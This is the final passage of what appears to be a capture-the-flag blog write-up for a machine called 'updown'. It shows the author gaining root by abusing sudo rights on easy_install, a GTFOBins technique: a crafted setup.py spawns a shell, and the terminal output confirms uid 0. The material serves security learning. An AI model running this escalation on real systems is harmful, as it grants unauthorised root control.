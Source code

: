 With the help of [GTFobins](https://gtfobins.github.io/gtfobins/easy_install/#sudo) we can abuse this binary to get the root access.

```bash
developer@updown:~$ sudo /usr/local/bin/easy_install ^C
developer@updown:~$ TF=$(mktemp -d)
developer@updown:~$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
developer@updown:~$ sudo /usr/local/bin/easy_install $TF
WARNING: The easy_install command is deprecated and will be removed in a future version.
Processing tmp.zMbAjkFXvF
Writing /tmp/tmp.zMbAjkFXvF/setup.cfg
Running setup.py -q bdist_egg --dist-dir /tmp/tmp.zMbAjkFXvF/egg-dist-tmp-AIs2rL
# id
uid=0(root) gid=0(root) groups=0(root)
```
Now we get the root access.

Thank you for reading my blog; I hope you enjoyed it.

